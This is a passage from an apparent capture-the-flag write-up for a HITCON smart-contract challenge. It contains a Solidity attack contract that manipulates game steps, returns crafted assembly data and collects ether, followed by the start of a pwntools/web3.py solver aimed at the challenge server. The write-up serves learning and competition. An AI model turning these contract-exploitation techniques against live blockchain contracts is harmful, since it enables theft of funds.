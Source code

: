 ```solidity
        if (step == 2 || step == 4 || step == 8) {
            assembly {
                mstore(r, 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffb440)
                return(r, 64)
            }
        } else {
            r = new uint8[]((uint256(land.stage()) + 1) * 100);
            for (uint256 i = 0; i < r.length; i++) {
                r[i] = 1;
            }
        }
    }

    function decide_continue_battle(uint256 round, int256 health) external returns (bool) {
        Gem memory gem = fetchCurrentGem();
        if (step == 5) {
            land.continue_battle{value: 1 ether}();
        } else if (step == 7) {
            land.merge_gems();
        } else {
            revert RoundFailedTryAgain(gem, round, health);
        }
        return true;
    }

    receive() external payable {
        // gib me money
    }

    fallback() external payable {
        // i have a family to feed
    }
}
```

Shoutout to [zemse/hardhat-tracer](https://github.com/zemse/hardhat-tracer) for singlehandedly improving my Ethereum debugging experience!

<details><summary>Hardhat Testing Script (run with <code>npx hardhat --trace</code>)</summary></details><br>

With all that, all's that's left is to replicate on remote!

## moon

_in which Arc spends another hour learning web3.py_

```py
import hashlib
import json
import pwn
from web3 import Web3
from web3.middleware import construct_sign_and_send_raw_middleware

def action(num: int) -> pwn.remote:
    launcher = pwn.remote("lustrous.chal.hitconctf.com", 31337)
    launcher.recvuntil(b"action? ")
    launcher.sendline(str(num).encode())
    return launcher

def solve_pow(launcher: pwn.remote):
    cmd = launcher.recvline_contains(b"curl -sSL").decode().split(" ")
    prefix = cmd[-2].encode()
    bits = int(cmd[-1])

```